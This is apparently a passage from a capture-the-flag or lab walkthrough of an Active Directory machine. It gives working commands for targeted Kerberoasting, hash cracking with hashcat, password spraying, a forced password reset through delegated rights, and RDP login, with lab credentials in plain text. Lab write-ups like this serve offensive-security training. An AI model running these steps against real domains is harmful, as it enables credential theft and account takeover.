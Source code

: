 Checking BloodHound I see:

![image.png](image%2040.png)

We can perform Targeted Kerberoasting or use [`pywhisker`](https://github.com/ShutdownRepo/pywhisker) and obtain `NTLM` hash, I am gonna first try [`targetedKerberoast`](https://github.com/ShutdownRepo/targetedKerberoast.py).

```bash
python3 targetedKerberoast.py -v -d 'hokkaido-aerospace.com' -u 'hrapp-service' -p 'Untimed$Runny'
```

![image.png](image%2041.png)

```bash
hashcat -m 13100 hazel.hash /usr/share/wordlists/rockyou.txt
```

![image.png](image%2042.png)

Password Spraying

![image.png](image%2043.png)

## Privileges as Hazel.Green

Checking shell access:

```bash
sudo nxc winrm $IP -u Hazel.Green -p 'haze1988'
```

![image.png](image%2044.png)

Checking BloodHound I see Group Delegated Object Control:

![image.png](image%2045.png)

```bash
net rpc password "Molly.Smith" "newP@ssword2022" -U "hokkaido-aerospace.com"/"Hazel.Green"%"haze1988" -S $IP
```

![image.png](image%2046.png)

## Shell as Molly.Smith

We can RDP to the target:

![image.png](image%2047.png)

## Privilege Escalation

```bash
xfreerdp /u:Molly.Smith /p:'newP@ssword2022' /v:$IP /drive:/tmp
```
